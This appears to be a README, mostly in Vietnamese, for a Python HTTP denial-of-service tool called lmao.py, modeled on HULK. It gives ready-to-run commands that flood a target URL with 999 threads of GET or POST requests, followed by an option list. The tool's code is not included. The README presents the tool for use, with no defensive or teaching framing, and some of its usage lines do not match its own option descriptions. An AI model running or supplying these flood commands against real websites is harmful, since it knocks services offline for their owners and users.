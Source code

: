 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ hulk nhưng có nhiều chức năng hơn) được viết bằng Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
``` Nếu bạn chọn <g> thì sẽ là : python doser.py -t 999 -g 'URL'
Nếu bạn chọn <p> thì sẽ là : python doser.py -t 999 -p 'URL'
Nếu bạn chọn <d> thì sẽ là : python doser.py -t 999 -d 'URL' 
```

Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# BY:
Duong Quang Truong :)
